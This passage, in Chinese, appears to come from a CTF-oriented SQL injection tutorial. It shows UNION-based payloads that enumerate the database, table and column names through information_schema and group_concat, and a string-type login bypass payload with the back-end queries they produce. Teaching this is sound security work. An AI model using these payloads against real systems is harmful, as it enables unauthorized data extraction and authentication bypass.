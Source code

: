 ​		![image-20230426195745130](https://nssctf.wdf.ink//img/WDTJ/202304261957162.png)

​		也可以把1换成其他的，比如`database()` 这样我们可以知道我们当前在哪个数据库

​		![image-20230426195952638](https://nssctf.wdf.ink//img/WDTJ/202304261959665.png)

- 下面就是用联合查询得到数据库里面的表名，一般步骤我们都是先获取当前库 ( `database()` ) 的表，再去看其他库的。

  这里我们基于`UNION` `GROUP_CONCAT(table_name)` 和 `information_schema.tables`

  ```sql
  1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()
  1 union select group_concat(table_name),2 from information_schema.tables where table_schema=database()
  # 原理同上
  # 如果要查询其他数据库 可以写为 where table_schema='databaseNAME'
  # 后台执行为：
  SELECT username,password FROM users WHERE id = 1 union select group_concat(table_name),2 from information_schema.tables where table_schema=database()
  ```

  ![image-20230426201306290](https://nssctf.wdf.ink//img/WDTJ/202304262013324.png)

- 下面就是去获得 表 的对应字段名 方便我们最后一步的查询工作

  这里我们使用`UNION` `GROUP_CONCAT(column_name)` 和 `information_schema.columns`

  ```sql
  1 union select 1,group_concat(column_name) from information_schema.columns where table_schema=database()
  1 union select group_concat(column_name),2 from information_schema.columns where table_schema=database()
  # 后台执行为：
  SELECT username,password FROM users WHERE id = 1 union select group_concat(column_name),2 from information_schema.columns where table_schema=database();
  ```

  ![image-20230426202627021](https://nssctf.wdf.ink//img/WDTJ/202304262026058.png)

#### 字符型注入

下面我们假设一个登录系统，那么他会接收两个参数 用户名和密码 后台的查询语句可能这样写

```sql
SELECT * FROM users WHERE username='$username' AND password='$password';
```

对于这种，开发时，预期数据收到的参数都为字符，使用字符进行查询的数据库的注入漏洞 我们称为字符型注入。

与数字型不同的是，我们需要先构造单引号的闭合。

这里我们让 `$username `= `-1' or '1'='1' -- `

```sql
SELECT * FROM users WHERE username='-1' or '1'='1' -- ' AND password='$password';
```

![image-20230426203250434](https://nssctf.wdf.ink//img/WDTJ/202304262032468.png)
